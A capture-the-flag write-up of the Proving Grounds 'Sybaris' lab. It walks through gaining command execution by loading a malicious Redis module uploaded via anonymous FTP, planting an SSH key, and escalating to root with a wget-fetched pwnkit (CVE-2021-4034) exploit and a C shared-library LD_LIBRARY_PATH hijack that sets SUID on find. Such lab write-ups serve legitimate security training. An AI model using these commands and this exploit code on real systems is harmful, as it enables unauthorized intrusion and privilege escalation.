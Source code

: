 ```yaml
---
title: "Proving grounds Practice: Sybaris"
layout: post
date: 2024-06-20 02:0
categories: writeup
---
```


Proving grounds Practice - Sybaris CTF writeup.

## Nmap
```shell
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
6379/tcp open  redis   Redis key-value store 5.0.9
```

## 21/tcp   open  ftp     vsftpd 3.0.2
Anonymous login success
No directory found

## 80/tcp   open  http Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
Nothing here...

## 6379/tcp open  redis   Redis key-value store 5.0.9
Upload module.so file to the remote machine through the FTP.
Use redis-cli to import the uploaded module for command execution

```shell
naveenj@hackerspace:[21:42]~/proving_grounds/Sybaris$ redis-cli -h 192.168.209.93
192.168.209.93:6379> MODULE LOAD /var/ftp/pub/exp.so
OK
192.168.209.93:6379> system.exe "id"
(error) ERR unknown command `system.exe`, with args beginning with: `id`, 
192.168.209.93:6379> module list
1) 1) "name"
   2) "system"
   3) "ver"
   4) (integer) 1
192.168.209.93:6379> system.exec "whoami;id;hostname;uname -a"
"pablo\nuid=1000(pablo) gid=1000(pablo) groups=1000(pablo)\nsybaris\nLinux sybaris 3.10.0-1127.19.1.el7.x86_64 #1 SMP Tue Aug 25 17:23:54 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux\n"
```

- Now copy id_rsa.pub file from the local machine to remote machine via ftp.

- Run the copy command to copy /var/ftp/pub/authorized_keys to /home/pablo/.ssh/authorized_keys. Ensure the .ssh folder was created before copying the key.

- Cross check the file using the redis-cli system.exec command and ssh to the user.

## Privilege Escalation

Sudo version vulnerable to [CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034) (pwnkit).

```shell
[pablo@sybaris tmp]$ wget http://192.168.45.174/CVE-2021-4034.py -O exploit.py
--2023-10-29 22:01:50--  http://192.168.45.174/CVE-2021-4034.py
Connecting to 192.168.45.174:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3262 (3.2K) [text/x-python]
Saving to: ‘exploit.py’

100%[===================================================================================================================================================>] 3,262       --.-K/s   in 0.003s  

2023-10-29 22:01:51 (1.09 MB/s) - ‘exploit.py’ saved [3262/3262]

[pablo@sybaris tmp]$ which python
/usr/bin/python
[pablo@sybaris tmp]$ python exploit.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
[root@sybaris tmp]# cd /root
[root@sybaris root]#
```

## Alternative

```shell
[pablo@sybaris ~]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
  *  *  *  *  * root       /usr/bin/log-sweeper
```

**Abuse LD_LIBRARY_PATH**

- https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/

### Exploit

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("chmod u+s /usr/bin/find");
}
```

### Compile the exploit and run

`gcc -o utils.so -shared -fPIC exploit.c`

```shell
[pablo@sybaris tmp]$ ls -al /usr/bin/find
-rwsr-sr-x. 1 root root 199304 Oct 30  2018 /usr/bin/find   #SUID bit set
[pablo@sybaris tmp]$
[pablo@sybaris tmp]$ /usr/bin/find . -exec /bin/sh -p \; -quit
```

Note after running the exploit the `SUID` bit has been set to the binry `find`.

**Root Obtained**

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).